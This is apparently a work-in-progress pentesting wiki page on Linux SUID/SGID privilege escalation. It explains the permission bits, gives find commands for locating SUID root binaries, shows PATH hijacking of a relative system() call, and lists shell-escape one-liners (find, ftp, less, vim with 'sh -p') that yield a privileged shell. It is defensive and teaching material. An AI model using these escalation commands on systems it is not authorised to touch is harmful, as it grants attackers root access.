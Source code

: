 # 🛠️ SUID/SGID binaries

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name
{% endhint %}

## Theory

Just like other linux files, binaries have permissions. Due to obligation or misconfiguration, some of them run with higher privileges than usual and can therefore be targeted in priority when trying to locally escalate privileges on a machine.

#### SUID binaries

The SUID bit allows the binary to run with the privileges of the owner instead of those of the user executing it. They can be spotted to the `s` permission in the file owner permissions \(i.e. files with permissions `-rws...`\).

{% hint style="info" %}
Note that if the permission is listed with a capital `S` such as `-rwS...`, the file is suid-enabled but not executable...
{% endhint %}

```bash
# List all the root suid-enabled running binaries on the machine (and variants)
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
find / -user root -perm -4000 -print 2>/dev/null
```

In this command, replace `/` with the directory you want to search, `f` indicates that only regular files \(ie not directories, special files\) will be listed.

Once the SUID binaries listed, you can try and exploit them. If you find in the list a well known linux command, you can check if it is exploitable on [GTFOBins](https://gtfobins.github.io/#+sudo).

You can set the SUID bit on a file like this :

```bash
# Set SUID bit to file
sudo chmod u+s file
```

#### SGID binaries

The same principles apply to SGID binaries. They can be spotted by the `s` permission in the file group permission \(ie files with the permissions `-...rws...`\).

 Set special group permission on a file :

```bash
# Set SGID bit to file
sudo chmod g+s file
```

#### Limitations

* Just like capabilities, SUID and GUID bits are cleared when a file is copied with `cp`.
* Some partitions of the linux file system are mounted with the `nosuid` option. In this case the SUID bit is ignored for binaries placed inside the partition. It is a common good practice for tmpfs partitions like `/tmp` or`/run`. You can spot these partitions  by inspecting the `/proc/mounts` pseudo-file for a `nosuid` flag. 

## Practice

#### Relative path calls

If a SUID binary calls to another one using a relative path instead of absolute.

```c
int function(int argc, char *argv[]){
···
    system("cat") // instead of system("/usr/bin/cat")
···
}
```

You can add a `cat` binary to the current working directory and edit the `PATH` environment variable so it is found first : `PATH=.:$PATH`

#### Common SUID privilege escalation

Known binaries that allow command execution and can be exploited :

```text
find -exec sh -p \; -quit

ftp
>!sh -p

less
>!sh -p

# Apparently system-dependent
vim -c ':!sh -p'
```

## References

{% embed url="https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/" caption="" %}

